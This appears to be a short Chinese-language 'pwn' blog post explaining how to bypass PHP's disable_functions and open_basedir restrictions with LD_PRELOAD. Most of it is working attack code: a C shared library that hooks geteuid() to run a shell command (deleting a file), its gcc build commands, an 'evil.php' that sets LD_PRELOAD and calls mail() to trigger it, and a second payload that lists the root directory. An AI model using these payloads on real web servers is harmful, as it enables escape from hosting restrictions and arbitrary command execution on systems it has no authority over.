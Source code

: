 ```yaml
---
title: LD_PRELOAD
date: 2018-06-04 10:10:00
tags: pwn
---
```


# LRE_PAYLOAD绕过open_basedir

参考链接:

[利用环境变量LD_PRELOAD绕过disable_function执行系统命令](http://wooyun.jozxing.cc/static/drops/tips-16054.html)

[PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

源码:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void payload() {
	system("rm /tmp/check.txt");
}
int  geteuid() {
	if (getenv("LD_PRELOAD") == NULL) { return 0; }
	unsetenv("LD_PRELOAD");
	payload();
}

```

编译:

```
gcc -c -fPIC shell.c -o teset
gcc -shared teset -o test.so
```

evil.php

```
<?php
putenv("LD_PRELOAD=/var/www/html/preload/test.so");
	mail("a@localhost","","","","");
?>
```

执行evil.php ，可以发现check.txt被删除。

列目录的payload:

```
#include <dirent.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void payload()
{
    DIR* dir;
    struct dirent* ptr;
    dir = opendir("/");
    FILE  *fp;
    fp=fopen("/tmp/venenoveneno","w");
    while ((ptr = readdir(dir)) != NULL) {
        fprintf(fp,"%s\n",ptr->d_name);
    }
    closedir(dir);
    fflush(fp);
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```



